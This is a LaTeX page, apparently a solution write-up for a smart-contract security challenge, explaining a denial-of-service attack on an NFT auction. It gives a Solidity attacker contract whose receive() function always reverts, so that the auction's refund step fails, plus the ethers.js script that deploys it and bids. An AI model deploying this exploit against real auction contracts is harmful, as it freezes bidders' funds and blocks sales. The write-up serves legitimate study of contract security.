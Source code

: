 \documentclass[12pt]{article}
\begin{document}
The solution exploits this vulnerability through a malicious contract that:

\begin{enumerate}
\item Places a valid bid to be added to the bidders list
\item Implements a \texttt{receive()} function that deliberately reverts when it receives ETH
\end{enumerate}

This ensures that when the auction tries to conclude, it will attempt to refund our malicious contract, which will reject the payment and cause the entire transaction to fail.

\noindent
\begin{minipage}{\textwidth}
\begin{lstlisting}[language=Solidity]
contract NFTAuctionAttacker {
    // Error for rejection
    error RejectPayment();
    
    // The NFT auction contract to attack
    INFTAuction public nftAuction;
    
    constructor(address _nftAuction) {
        nftAuction = INFTAuction(_nftAuction);
    }
    
    // Function to place a bid on the auction
    function attack() external payable {
        nftAuction.bid{value: msg.value}();
    }
    
    // This function will revert when the auction tries to refund this contract
    // causing the entire endAuction transaction to fail
    receive() external payable {
        revert RejectPayment();
    }
}
\end{lstlisting}
\end{minipage}

\noindent
To execute the attack, we deploy the attacker contract and place a bid through it:

\noindent
\begin{minipage}{\textwidth}
\begin{verbatim}
// Deploy our attacker contract
const NFTAuctionAttacker = 
  await ethers.getContractFactory("NFTAuctionAttacker", player);
const attackerContract = 
  await NFTAuctionAttacker.deploy(nftAuction.target);

// Place a bid through our attacker contract
// We bid more than the current highest bid to ensure we're included
await attackerContract.connect(player).attack({
    value: ethers.parseEther("2.9") // Higher than the last bid of 2.8 ETH
});
\end{verbatim}
\end{minipage}
\end{document}
